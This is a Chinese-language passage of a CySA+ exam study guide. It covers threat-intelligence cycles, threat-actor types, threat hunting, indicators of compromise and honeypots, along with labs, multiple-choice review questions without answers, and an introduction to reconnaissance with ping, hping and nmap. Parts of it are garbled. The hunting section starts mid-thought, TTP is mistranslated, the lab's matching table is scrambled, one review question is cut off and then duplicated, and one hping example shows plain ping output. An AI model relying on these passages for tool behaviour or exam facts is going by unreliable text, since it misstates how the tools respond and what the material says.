* 评估你曾面临过哪些安全泄露或渗透。
* 评估哪些信息可以防止或限制泄露的影响。
* 评估缺少了哪些控制措施和安全措施，这些措施本可以缓解泄露。

## 数据收集

一旦你确定了信息需求，就可以从威胁情报源中收集数据以满足这些需求。当增加额外需求或根据可用数据和数据源对需求进行精炼时，此阶段可能会重复。

## 数据处理与分析

你在数据收集阶段收集的威胁情报数据可能以几种不同的格式存在。某些可能是你现有工具和系统可以读取的易于访问格式。其他数据可能是纯文本或书面形式，也可能几乎完全没有格式。在这一阶段，你必须首先对数据进行处理，以便供你打算使用的任何工具或流程进行读取，然后你必须对数据本身进行分析。此阶段的输出可以是输入到自动化系统或其他工具的数据，也可以编写成报告分发给领导层或组织的其他人员。

## 情报发布

在情报循环的发布阶段，数据会被分配给领导层和运维人员，他们将这些数据作为其安全运营工作的一部分。

## 反馈

威胁情报循环的最后一个阶段是收集对你收集的报告和数据的反馈。持续改进是过程中的关键要素，它应该用于创建更好的需求并提高你威胁情报计划的整体产出。

## 威胁情报社区

除了威胁情报供应商和资源外，还建立了用于共享威胁信息的威胁情报社区。在美国，被称为“信息共享与分析中心（ISACs）”的组织帮助基础设施所有者和运营商共享威胁信息，并为其成员提供工具和帮助。国家 ISAC 委员会在 `www.nationalisacs.org` 上列出了基于行业的 ISACs。

ISAC 概念是于 1998 年作为《总统决定指令第 63 号》（`PDD-63`）的一部分引入的，该指令要求关键基础设施部门建立组织，以共享有关威胁和漏洞的信息。ISAC 基于信任模型运行，允许对物理威胁和网络威胁的威胁信息进行深度共享。大多数 ISAC 每天 24 小时运行，为其所在行业的 ISAC 成员提供事件响应和威胁分析。

除了 ISACs，每个关键基础设施领域都有特定的美国机构或部门合作伙伴。按部门划分的列表可以在此处找到：`www.dhs.gov/cisa/critical-infrastructure-sectors`。

在美国境外，许多国家也存在职责相似的政府机构和部门。英国的国家基础设施保护中心（`www.cpni.gov.uk`）负责向工业界、学术界以及政府和其他部门和执法部门提供威胁信息、资源和指导。

# 威胁分类

一旦你决定对你组织的威胁进行评估，你很快就会你需要标准的方法来描述它们。幸运的是，行业内存在许多常用的描述方案和术语。许多组织寻求同时描述威胁者，并对他们面临的威胁进行分类，以便更好地理解威胁本身。

## 威胁者

CySA+ 考试目标专门列出了几种常见的威胁者：

* **国家级** 攻击者通常拥有最多的资源访问权限，包括工具、人才、设备和时间。国家级威胁者背后有国家的资源支持，他们的目标通常是其赞助国的目标。国家级攻击者通常与高级持续性威胁（APT）组织相关，他们拥有在其他威胁者手中并不常见的先进工具和能力。
* **有组织犯罪** 作为威胁者发挥了重要作用，其重点攻击通常针对财务利益。勒索软件攻击是此类组织犯罪威胁的典型例子。
* **黑客主义者**（Hacktivists）是通过黑客攻击来实现政治或哲学目的的活动人士。他们的范围从个人到像 Anonymous 这样的团体不等，其技术能力差异很大。在评估黑客主义者的威胁时，你需要仔细考虑哪些类型的黑客主义者可能针对你的组织。
* **脚本小子**（Script kiddies）是指使用现成工具的恶意攻击者，通常方式并不先进。
* **内部威胁** 来自组织内部受信任个人或小组的威胁。它们可能是故意的或无意的，无论何种，由于其信任地位都构成了严重威胁。内部威胁通常被认为是泄露最可能的原因之一，且难以检测。
* **供应链** 威胁者可能作为供应链的一部分，插入恶意软件或硬件、破坏设备或植入后门，或者攻击供应链以中断商品和服务的获取。过去几年中记录了许多供应链攻击，导致国家和行业安全组织对验证设备和软件的完整性以及供应链工作更加关注。

除了这些，你的组织可能希望根据威胁模型和画像考虑其他特定的威胁者，因此你不应认为此列表是完整的。你应该进行组织威胁评估，以确定哪些类型的威胁者最可能针对你的组织以及原因何。

一旦你有了假设，下一步就是调查该威胁。我们在本章节早期讨论的信誉水平分析、威胁分类以及 TTP（技术、技术和程序）概念可以提供基础，让你能够对威胁攻击者进行画像分析，通过执行可执行进程分析或逆向工程等手段分析恶意软件或其他工具，或其他调查新威胁。

如果发现了新威胁，通常会采取某种形式的行动来应对。你可能会识别出减少组织攻击面的方法，或者可能根据你的威胁分析找到其他减少攻击者可利用攻击向量的方法。

这类主动活动的关键在于使用来自多个源的集成情报馈送，并提高组织的检测能力，以便你能够在威胁演变成严重问题之前识别它们。

你可以将主动威胁狩猎看作是一个包含以下步骤的过程：

* **建立假设**：需要一个假设来进行测试，并且该假设基于所考虑的威胁具有可操作的结果。
* **威胁攻击者和活动画像分析**：这有助于确保你已经考虑了谁可能是威胁以及为什么，以及他们典型的操作和流程是什么。
* **威胁狩猎战术**：这些威胁狩猎活动成功的。技能、技术和程序是行动与分析相结合之处。
* **减少攻击面**：这允许资源集中在剩余的攻击面上，使保护更易管理。
* **将关键资产分组并划分保护区域**：这有助于管理攻击面、威胁狩猎和响应活动，因为每个资产都不需要作为唯一项进行单独评估或管理。
* **理解、评估和处理攻击向量或攻击手段**：这一步必须基于对威胁攻击者及其技术的分析，以及威胁攻击者可以针对的攻击面。
* **集成情报**：此步骤结合了多个情报源，以提供更好的威胁视角。
* **提高检测能力**：随着威胁不断改进其技术手段，这是一个持续的过程。如果你不提高检测能力，新威胁随着推推将会绕过现有能力。

在准备考试时，确保考虑这些每项在主动威胁狩猎活动中起着什么作用，以及它们对你的组织会产生什么影响。

## 聚焦你的威胁狩猎

在准备 CySA+ 考试时，你需要针对考试大纲中提到的三个威胁狩猎重点领域做好准备：

* 可能导致泄露或可能指示攻击者已修改设置的配置和错误配置。
* 隔离网络，通常用于保护敏感或专用的数据和系统。在隔离网络中进行威胁狩猎可能更容易，因为流量和行为应该是可以完全理解的，但在某些情况下，这也意味着部署和使用集中管理的工具和能力可能更具挑战性。
* 业务关键资产和流程由于其重要性而成为关注领域。威胁狩猎者可能会由于其组织风险概况以及确保其安全的重要性而关注这些内容。

虽然这三个领域不是组织进行威胁狩猎时关注的唯一三个领域，但你可以预计它们是考试的潜在关注领域。

## 失陷指标 (IOCs)

失陷指标（`IOCs`）是通常与受损系统和软件相关的数据。`IOCs` 用于检测入侵、泄露、恶意软件以及其他与攻击相关的活动。CySA+ 考试大纲通过三个维度来看待 `IOCs`：

* **收集 (Collection)**：侧重于如何获取可能指示失陷的数据。这通常侧重于使用工具、日志和其他数据源来收集可能指示失陷的数据。
* **分析 (Analysis)**：随后需要确定收集的信息是否真实指示了失陷。例如，异常的网络流量是一个常引用的 `IOC`，但它可能仅仅是一个新进程或用户正在执行罕少需要的任务。分析需要理解所收集的数据的含义，并从上下文角度理解这是否意味着可能发生或正尝试发生失陷。
* **应用 (Application)**：`IOCs` 的应用有两种方式：首先，通过分析来理解是否发生了失陷，从而激活事件响应流程和其他安全响应程序。`IOC` 的应用也可以作为分析过程的一部分。威胁情报服务和共享小组会记录 `IOCs`，并将其供安全监控和分析工具使用。

在备考 CySA+ 考试时，你应该熟悉常见的 `IOC` 类型，例如：

* 可疑的登录活动，包括在异常时间段的活动、来自休眠账户的活动，或来自与典型账户行为不符的国家或地理位置的活动
* 对文件的修改，特别是配置文件和日志文件
* 对特权账户的意外或异常使用
* 异常或意想不到的网络流量
* 大规模的出站数据传输
* 系统或设备上运行的意外之外的服务、端口或软件

还有许多潜在的失陷指标，你不太可能记住每一个可能的 `IOC`。相反，你应该专注于思考你将如何使用 `IOC` 数据，在拥有日志和其他信息的情况下你会寻找什么，以及你将如何应用它们来判断是否发生了失陷。

## 威胁狩猎工具与技术

威胁狩猎需要投入额外的能力。CySA+ 考试大纲中特别提到的一个例子是主动防御。主动防御可能涉及欺骗技术，可以延迟或混淆攻击者。像 `tarpits`（诱阱陷）这样的技术为攻击者提供大量虚假目标，既提供假数据又减慢扫描和攻击，是主动防御的常见组件。

某些主动防御方案中的另一个元素是 `honeypots`（蜜罐）。`honeypots` 是故意留漏洞的系统，用于诱捕攻击者进入。它们经过仪器并开启了日志记录，允许威胁分析师和其他安全人员审查和分析攻击者的行为及技术。除了 Honeynet 项目（`www.honeynet.org/projects`）创建的传统蜜罐外，许多预制的蜜罐工具是针对攻击者可能感兴趣的基础设施和系统设计的。

# 总结

了解你的组织面临的威胁是你的安全计划和运营的关键部分。为了理解这些威胁，作为安全专业人员，你应该收集由对手、其动机、能力、工具和方法组成的情报情报。

开源威胁情报从公开源获取，而闭源威胁情报来自不向公众提供数据的商业或其他源。许多组织将两者都作为威胁情报工作的一部分。存在许多开源威胁情报源，包括政府赞助的馈送和网站、专业组织、供应商资源、社交媒体甚至来自个人的信息。

威胁情报共享在组织的整个安全工作中都非常有用，包括用于事件响应、漏洞管理、检测、监控，甚至是安全工程。确保威胁情报的可靠性至关重要——需要对威胁情报源进行评估，并且在根据数据采取行动之前，了解你对数据的置信程度非常重要。威胁信息还需要进行管理，并且存在用于描述威胁信息的标准化格式和语言，以提高威胁信息的可用性。`STIX`、`ATT&CK` 以及其他工具有助于威胁信息的标准化。它们还帮助使用如国家级攻击者和攻击者能力等通用术语对威胁进行分类。

威胁者通常被归类为少数描述之一：国家级攻击者、高级持续性威胁（`APTs`）、有组织犯罪、黑客分子、内部威胁（包括故意和无意）、脚本小子（script kiddies）以及供应链威胁攻击者。理解你所面临的威胁者类型是威胁分析的重要部分。

威胁狩猎活动由威胁情报驱动，通常依赖入侵指标（`IOCs`）来帮助识别攻击。通过 `IOCs` 的视角对数据的收集、分析和应用，以便组织能够应对威胁者及其行为。理解常见的 `IOCs` 是安全专业人员的一项重要能力。

# 考试要点

## 描述威胁者的分类标准和通用术语。

解释并区分不同威胁者的类型，包括高级持续性威胁（`APTs`）、国家级、黑客分子、有组织犯罪、脚本小子以及故意和无意的内部威胁。理解为什么组织越来越多地关注供应链威胁。

## 描述战术、技术和程序。

解释 `TTP`，即战术、技术和程序，它们是威胁者的行为。战术是对威胁者行为方式及其策略的高级描述。技术是用于获取、维持和保留访问权限、获取信息以及执行其他操作的所使用的技术性和非技术性工具。程序是威胁者用于按顺序排列并利用技术以实现战术和战略目标的流程。

## 了解开源和闭源情报是如何收集的，以及它们从何处获取。

描述开源和闭源（或专有）威胁情报源。理解 `OSINT`（即开源情报）可以来自各种来源，例如社交媒体、博客和论坛、政府公告、如 `CSIRTs` 和 `CERTs` 等安全组织以及暗网。描述情报共享社区如何提供专门针对行业或专业组的威胁数据。解释如何根据及时性、数据与你需求的关联性以及来源的准确性通过建立置信水平来评估情报源。

## 解释威胁狩猎和 `IOCs`。

理解什么是入侵指标以及它们是如何被收集、分析和应用的。解释威胁猎者的常见关注领域，包括配置和误配置，以及为什么在对攻击进行仪器监控时隔离网络是有用的。描述为什么组织在威胁狩猎优先级排序中关注业务关键资产和流程。解释主动防御技术，包括蜜罐。

# 实验练习

## 活动 4.1：探索 AlienVault OTX

在本次练习中，你将探索 AlienVault 的开放威胁交换 (`OTX`）。

### 第 1 部分：创建账户

1. 访问 `https://otx.alienvault.com` 创建账户。
2. 通过电子邮件验证你的账户。
3. 登录 `OTX`。

### 第 2 部分：查看 `IOCs`

* 现在你已经有了 `OTX`，可以查看 `IOCs`：

1. 从 `OTX` 浏览。
2. 从顶部选择 `Indicators`（指标）。
3. 查看左侧的 `types`（类型）。
4. 选择一个 `role`（角色）或 `type`（类型）。
5. 查看你的预期结果。

## 活动 4.2：设置 STIX/TAXII 馈

现在你已经看到了数据馈的内容，请设置馈。

1. 访问 `www.anomali.com/staxx` 并下载社区版。
2. 安装 `STAXX`。参考 `https://anomali.com/docs/STAXX_Installation_&_Administration_Guide.pdf`。
3. 连接到 Web 。
4. 一旦进入且 `STAXX` 摄入馈，即可探索仪表板。

## 活动 4.3：情报收集

将每个活动与其所属的威胁情报周期阶段相匹配。

| 活动 | 阶段 |
| :--- | :--- |
| 需求收集 | 更新你的情报计划需求。 |
| 威胁数据收集 | 向管理员提供有关威胁的信息。 |
| 威胁数据分析 | 评估近期泄露中缺失的控制措施。 |
| 威胁情报分发 | 通过 `STIX` 下载数据。 |
| 收集反馈 | 将手动收集的威胁数据转换为 `STIX`。 |

# 复习题

1. 下列哪些措施不常用于评估威胁情报？

- 及时性
- 详细程度
- 准确性
- 相关性

2. Nandita 遇到一个攻击者，该攻击者似乎正在使用一个常用的利用包攻击她的组织。该软件包似乎是使用单一系统以默认配置针对她整个面向外部的互联网资源运行的。她可能面临的是哪种类型的威胁者？

- 一个 `APT`
- 黑客分子
- 脚本小子
- 国家级攻击者

3. 在威胁周期中，威胁数据分析之后的是以下哪个活动？

- 收集反馈
- 威胁数据收集
- 威胁数据审查
- 威胁情报分发

4. Susan 想开始情报收集。在需求收集阶段经常执行以下哪些选项？

- 审查组织面临过的安全违规或入侵
- 审查当前的漏洞扫描结果
- 审查当前的数据处理标准
- 审查针对新威胁的威胁情报馈

5. 美国政府帮助创建了哪些组织，以帮助特定垂直行业内的组织共享知识？

- `DHS`
- `SANS`
- `CERTs`
- `ISACs`

6. 下列哪些威胁者通常拥有最多的资源？

- 国家级攻击者
- 有组织犯罪
- 黑客分子
- 内部威胁

7. 像 Anonymous 这样出于政治原因针对政府和企业的组织属于哪种类型的威胁者？

1. `黑客活动者 (Hacktivists)`
2. `军事资产 (Military assets)`
3. `国家级攻击者 (Nation-state actors)`
4. `有组织犯罪 (Organized crime)`

8. Jason 收集的威胁情报显示，他所在的组织视为威胁的对手倾向于使用 USB 优盘投放（USB key drops）来攻击目标。这体现了什么？

1. `他组织的攻击面 (His organization's attack surface)`


# 8. 哪种类型的评估对于识别内部威胁特别有用？

1. `行为的 (Behavioral)`
2. `直觉的 (Instinctual)`
3. `习惯的 (Habitual)`
4. `失陷指标 (IOCs)`

# 9. 哪种类型的评估对于识别内部威胁特别有用？

1. `行为的 (Behavioral)`
2. `直觉的 (Instinctual)`
3. `习惯的 (Habitual)`
4. `失陷指标 (IOCs)`

# 10. Felix 想要收集关于有组织犯罪威胁者的威胁情报。他最可能在何处找到威胁者发布的信息？

1. `社交媒体 (Social media)`
2. `博客 (Blogs)`
3. `政府公告 (Government bulletins)`
4. `暗网 (The dark web)`

# 11. 下列哪项不是常见的失陷指标（IOCs）？

1. `管理账户登录 (Administrative account logins)`
2. `配置文件的意外修改 (Unexpected modifications of configuration files)`
3. `来自非典型国家或位置的登录活动 (Login activity from atypical countries or locations)`
4. `管理系统的大流量数据传输 (Large outbound data transfers from administrative systems)`

# 12. Nick 想要分析攻击者的策略和技术。他部署哪种工具可以最有效地捕实际攻击数据进行分析？

1. `防火墙 (A firewall)`
2. `蜜罐 (A honeypot)`
3. `Web 应用防火墙 (A web application firewall)`
4. `安全信息和事件管理 (A SIEM)`

# 13. 下列哪项不是威胁猎活动的常见关注领域？

1. `策略 (Policies)`
2. `配置错误 (Misconfigurations)`
3. `孤立网络 (Isolated networks)`
4. `业务关键资产 (Business-critical assets)`

# 14. 哪个术语描述了对威胁信息的分析，该分析可能包括信息是否经过多个独立来源确认或已获得直接确认？

1. `威胁质量级别 (Threat quality level)`
2. `STIX 级别 (STIX level)`
3. `置信度 (Confidence level)`
4. `保证级别 (Assurance level)`

# 15. 是什么推动了 ISAC（信息共享与分析中心）在美国建立？

1. `基础设施所有者的威胁信息共享 (Threat information sharing for infrastructure owners)`
2. `1994 年网络安全法 (The Cybersecurity Act of 1994)`
3. `威胁信息收集网络提供商 (Threat information collection network providers)`
4. `1998 年 ISAC 法案 (The 1998 ISAC Act)`

# 16. 威胁情报共享最频繁地用于漏洞管理？

1. `在漏洞发布前识别零日威胁 (To identify zero-day threats before they are released)`
2. `作为扫描系统漏洞馈的一部分 (As part of vulnerability feeds for scanning systems)`
3. `作为补丁管理流程的一部分，确定哪些补丁未安装 (As part of patch management processes to determine which patches are not installed)`
4. `进行定量风险评估 (To perform quantitative risk assessment)`

# 17. OpenIOC 使用的是最初由哪家安全公司创建并提供的基础失陷指标集？

1. `Mandiant`
2. `McAfee`
3. `CrowdStrike`
4. `Cisco`

# 18. 高级持续性威胁（APT）通常与哪种类型的威胁者相关？

1. `内部威胁 (Insider threats)`
2. `国家级攻击者 (Nation-state actors)`
3. `有组织犯罪 (Organized crime)`
4. `黑客活动者 (Hacktivists)`

# 19. 内部威胁分为哪两种？

1. `授权的与外部的 (Approved and external)`
2. `故意的与无意的 (Intentional and unintentional)`
3. `内部与外部 (Internal and external)`
4. `恶意的与意外的 (Malicious and accidental)`

# 20. 取证数据通常用于哪种类型？

1. `STIX`
2. `行为的 (Behavioral)`
3. `失陷指标 (IOCs)`
4. `TAXII`

---

## 第 5 章 侦察与情报收集

安全分析师、渗透测试人员以及负责安全任务的人员需要了解网络环境。这一过程被称为侦察（reconnaissance）。例如，支付行业数据安全标准（PCI DSS）要求组织至少每季度执行一次，并在发生重大变更后执行。在本章中，你将探索主动情报，包括工具和真实案例。最后，你将学习被动情报收集。

### 映射、枚举与资产发现

收集情报的第一步是识别组织的足迹。主机枚举通常通过结合信息收集工具和手动研究来实现。发现过程（我们在侧边栏“资产发现与渗透测试”中讨论）通常用于确保安全专业人员了解网络中的情况。

### 主动侦察

主动侦察使用主机扫描工具收集有关系统、和服务漏洞的信息。需要注意的是，尽管侦察不涉及利用，但它可以提供有关漏洞的信息。

### 网络映射与拓扑发现

主动扫描还可以提供有关网络设计和拓扑的信息。当扫描工具遍历网络范围时，它可以评估响应中包含的信息。这可以帮助测试人员根据接收到的数据包生存时间（TTL）、追踪路径以及网络设备的响应，对拓扑做出合理的推断。图 5.1 显示了使用 `Zenmap` 工具进行的扫描，`Zenmap` 为流行的 `nmap` 网络扫描工具提供了图形用户界面。该扫描显示了一个简单的网络。路由器或网关中心连接到主机，让你清楚地看到一组主机如何连接。运行 `nmap` 的系统成为初始扫描的中心，并显示其本地环回地址 `127.0.0.1`。许多主机出现在 `10.0.2.1` 路由器之后的第二个网段上。`nmap`（以及使用 `nmap` 的 `Zenmap`）可能无法发现所有的系统和网络设备——防火墙或其他安全设备可以阻止扫描流量，导致系统或网络缺失。

扫描工具收集的拓扑信息可能存在缺陷，并且可能与目标网络的实际设计不匹配。安全和网络设备可能会导致 TTL 和跟踪路由（`traceroute`）信息的差异，从而导致数据错误或缺失。防火墙还可以让设备和系统对扫描实际上变得不可见，导致从扫描结果构建的拓扑图中某些网络网段无法显示。

除了安全设备带来的挑战外，你可能还需要考虑各种变量，包括有线网络与无线网络之间的差异、虚拟网络与像 `VMware` 和 `Microsoft Hyper-V` 等虚拟环境之间的差异，当然，还包括本地网络与云托管服务及基础设施之间的差异。如果你扫描的是你或你组织控制的网络，你应该能够确保你的扫描系统或设备放置恰当，以收集你所需的信息。如果你是在渗透测试或零知识测试中进行扫描，你可能需要检查你的数据，以确保这些变量没有导致你遗漏重要信息。

### 探测宿主机 (Pinging Hosts)

你可以进行的最基础的发现形式是对网络地址进行 `ping` 操作。`ping` 命令是一种低级网络命令，它向远程 IP 地址发送一个名为回显请求（echo request）的数据包。如果远程系统接收到请求，它将用回显响应（echo reply）进行响应，表示它已开启并运行，且通信路径是有效的。`Ping` 通信使用互联网控制消息协议（ICMP）。

以下是一个向运行在本地网络上的服务器发送回显请求的示例：

```
[~/]$ ping 172.31.48.137
PING 172.31.48.137 (172.31.48.137) 56(84) bytes of data.
64 bytes from 172.31.48.137: icmp_seq=1 ttl=255 time=0.016 ms
64 bytes from 172.31.48.137: icmp_seq=2 ttl=255 time=0.037 ms
64 bytes from 172.31.48.137: icmp_seq=3 ttl=255 time=0.026 ms
64 bytes from 172.31.48.137: icmp_seq=4 ttl=255 time=0.028 ms
64 bytes from 172.31.48.137: icmp_seq=5 ttl=255 time=0.026 ms
64 bytes from 172.31.48.137: icmp_seq=6 ttl=255 time=0.027 ms
64 bytes from 172.31.48.137: icmp_seq=7 ttl=255 time=0.027 ms
 
--- 172.31.48.137 ping statistics ---
7 packets transmitted, 7 received, 0% packet loss, time 6142ms
rtt min/avg/max/mdev = 0.016/0.026/0.037/0.008 ms
```

在这种情况下，用户使用 `ping` 命令查询了位于 `172.31.48.137` 的系统状态，并对发送的七个请求收到了七个响应。重要的是，虽然来自远程主机的回显响应表示它已开启并运行，但缺乏响应并不一定意味着远程主机未活动。许多防火墙会阻止 `ping` 请求，单个系统可能被配置为忽略回显请求。

`hping` 工具是 `ping` 命令的更高级版本，允许对回显请求进行自定义，以增加检测到的概率。`hping` 也可以作为渗透测试的一部分来构造数据包。以下是 `hping` 运行的一个示例：

```
[~/]$ hping 172.31.48.137 
PING 172.31.48.137 (172.31.48.137) 56(84) bytes of data.
64 bytes from 172.31.48.137: icmp_seq=1 ttl=255 time=0.016 ms
64 bytes from 172.31.48.137: icmp_seq=2 ttl=255 time=0.037 ms
64 bytes from 172.31.48.137: icmp_seq=3 ttl=255 time=0.026 ms
64 bytes from 172.31.48.137: icmp_seq=4 ttl=255 time=0.028 ms
64 bytes from 172.31.48.137: icmp_seq=5 ttl=255 time=0.026 ms
64 bytes from 172.31.48.137: icmp_seq=6 ttl=255 time=0.027 ms
64 bytes from 172.31.48.137: icmp_seq=7 ttl=255 time=0.027 ms
 
--- 172.31.48.137 ping statistics ---
7 packets transmitted, 7 received, 0% packet loss, time 6142ms
rtt min/avg/max/mdev = 0.016/0.026/0.037/0.008 ms
```

```
[~/]$ hping -S -p 80 172.31.48.137
PING 172.31.48.137, 80: flags=SA, seq=0, win=58405, len=0
172.31.48.137 (172.31.48.137) 80: flags=SA, seq=0, win=58405, len=0 - d=0.016 ms
172.31.48.137 (172.31.48.137) 80: flags=SA, seq=1, win=58405, len=0 - d=0.037 ms
172.31.48.137 (172.31.48.137) 80: flags=SA, seq=2, win=58405, len=0 - d=0.026 ms
172.31.48.137 (172.31.48.137) 80: flags=SA, seq=3, win=58405, len=0 - d=0.028 ms
172.31.48.137 (172.31.48.137) 80: flags=SA, seq=4, win=58405, len=0 - d=0.026 ms
172.31.48.137 (172.31.48.137) 80: flags=SA, seq=5, win=58405, len=0 - d=0.027 ms
172.31.48.137 (172.31.48.137) 80: flags=SA, seq=6, win=58405, len=0 - d=0.027 ms
```

### 端口扫描技术与工具

扫描工具的设计目的是向系统发送流量，然后获取响应。由于这些原因，端口扫描通常是收集信息的第一步。`端口扫描`工具具有许多常用功能，包括：

*   主机发现
*   端口扫描和服务识别
*   设备指纹识别
*   操作系统识别

端口扫描的一个重要部分是理解常用端口。0-1023 端口被称为**已知端口**（well-known ports）或**系统端口**（system ports），它们由 IANA 分配。1024 到 49151 之间的端口是**注册端口**（registered ports），许多端口也被任意用于服务。由于端口可以手动分配，简单地假设给定端口运行的服务并不总是好主意。特别是许多 SSH 和 HTTPS 服务器运行在备用端口，以避免端口扫描。

分析扫描数据是一门艺术，但了解如何扫描的基础知识非常有用，因为扫描可以提供网络中有哪些主机、它们运行哪些服务以及关于它们是否容易受到攻击的线索。在图 5.2 中，一个具有广泛服务的漏洞 Linux 系统已被扫描。要读取此扫描，你可以从顶部的运行命令开始。`nmap` 端口扫描器（我们将在后几页中详细讨论）使用了 `-O` 选项，结果尝试识别操作系统。`-P0` 标志告诉 `nmap` 在扫描前跳过 `ping` 系统，`-sS` 标志执行了 TCP `SYN` 扫描，每个端口发送连接尝试。最后，我们看到了远程系统的 IP 地址。默认情况下，`nmap` 扫描 1000 个常用端口，`nmap` 在该列表中发现了 23 个开放端口。



**FIGURE 5.2** Nmap 扫描结果

接下来，扫描显示了它发现的端口、它们是 TCP 还是 UDP、状态（如果服务可用则为开放，如果不可访问则为关闭，如果有防火墙或类似的保护则为过滤），以及它对端口运行服务的猜测。`Nmap` 服务识别可能是错误的——它不像某些漏洞扫描器那样功能全，但服务列表是一个很有用的起点。

关于本次扫描最后需要注意的点是运行时间以及到主机的跳数（hops）。该扫描在不到二秒内完成，这告诉我们主机响应很快，且主机仅一跳之遥——从扫描主机可以直接访问。更复杂的网络路径将显示更多的跳数，而扫描更多主机或在系统以及扫描器与远程目标之间增加安全防护都会减慢速度。

### 操作系统和设备指纹识别

根据其发送的网络流量识别操作系统的能力被称为 `operating system fingerprinting`（操作系统指纹识别），在执行侦察时它可以提供有用信息。这通常使用 TCP/IP 栈指纹技术完成，重点是比较对发送到远程主机的 TCP 和 UDP 数据包的响应。操作系统甚至操作系统版本响应方式的差异、它们支持的 `TCP` 选项、发送数据包的顺序以及许多其他细节，都可以对远程系统运行的 `OS` 提供良好的推测。

在此背景下，`Device fingerprinting`（设备指纹识别）描述收集和关联有关设备的信息（如其运行的软件、和服务操作系统），使其能够唯一标识，或被识别为特定类型或版本的设备。设备指纹对于识别打印机和其他网络设备特别有用，但如果能发现足够的独特或典型信息，也可以用于识别工作站、服务器或任何其他网络连接设备。对于设有防火墙且不对探测响应的设备，如果可以访问其网络流量和可用的网络设备日志，仍然可以进行指纹识别。

### 服务和版本识别

识别服务的能力可以提供潜在漏洞的有用信息，并验证在给定端口上响应的服务与通常使用该端口的服务相匹配。服务识别通常通过两种方式之一完成：通过连接并获取服务提供的 `banner`（横幅）或连接信息，或者通过将其响应与已知服务的特征进行比较。

图 5.3 显示了图 5.1 中扫描的同一系统，并使用了 `nmap` 的 `-sV` 标记。`-sV` 标记获取 `banner` 并执行其他服务版本验证步骤以捕额外信息，并将其与服务数据库进行比对。

基本的 `nmap` 输出与图 5.1 相同，但我们在 `Version` 列中增加了信息，包括服务名称以及版本，有时还有服务协议版本或其他细节的额外信息。这些信息可用于检查补丁级别或漏洞，并帮助识别运行在非标准端口上的服务。

